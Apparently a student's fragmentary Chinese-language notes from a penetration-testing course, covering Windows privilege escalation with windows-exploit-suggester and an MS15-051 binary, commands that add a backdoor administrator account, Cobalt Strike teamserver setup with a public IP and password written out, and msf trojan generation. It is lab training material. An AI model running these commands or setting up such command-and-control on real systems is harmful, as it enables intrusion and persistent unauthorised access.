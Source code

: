 python2 windows-exploit-suggester.py --database 2021-08-03-mssb.xls --systeminfo 1.txt  【不兼容 python03 ???】
02.02-ms15-051.exe

net user t1 123123 /add    #添加账户
net localgroup administrators t1 /add    #将t1添加到管理员组

--- github 搜索 cve等工具

# day01 内网渗透

## 笔记
kali左上角黑色图标为终端，可以多次点击，打开多个终端--在更靠右的一个黑色图标中收藏着所有打开的终端。ctrl-c或exit可以关闭。

### 01.下午-2.7节

------------------------day02上午复习
CS--- 靶机 10.2.2.  ，开通WIN VPN 后，本地IP多了一条 10.2.1.
shell --输入 ipconfig 
CS服务器和客户端连接后，在上半个窗口显示的条目（可以看到自己的靶机IP）
CS菜单---Attacks---Packages -- win Exec...

-------------------------

把 01.04-cobaltstrike3 拷贝到 kali中--主页面左上角图标有文件浏览器，找到Desktop，进去后把CS文件夹复制粘贴进去
chmod 755 cobaltstrike

47.111.129.24 
端口：50021  
wings123 【密码】

(kali㉿kali)-[~/Desktop]
└─$ ./teamserver 10.2.0.246 123456          【IP 端口互相不要冲突 ??? 是哪里】
./cobaltstrike

-----------------------
rdesktop -a 16 10.2.2.52 【】???
mstsc.exe
pc/123456 

-------------------
./teamserver 47.111.129.24 wings123  【章   ???】
chmod 755 teamserver
sudo ./teamserver 47.111.129.24 wings123  【】


===================================
关键词：内网 深网 暗网  | 高危补丁 攻击机(vpn) | 目标主机（被放置木马???） 靶机 肉机 |  测试机???

木马分为Web类和全能类（只要有网络），冰蝎ice ???

## 2.6节 msf-后门木马生成--01.下午  

------------------------------------
【】实验操作时的多重身份：
1、作为攻击者
2、作为靶机维护人员
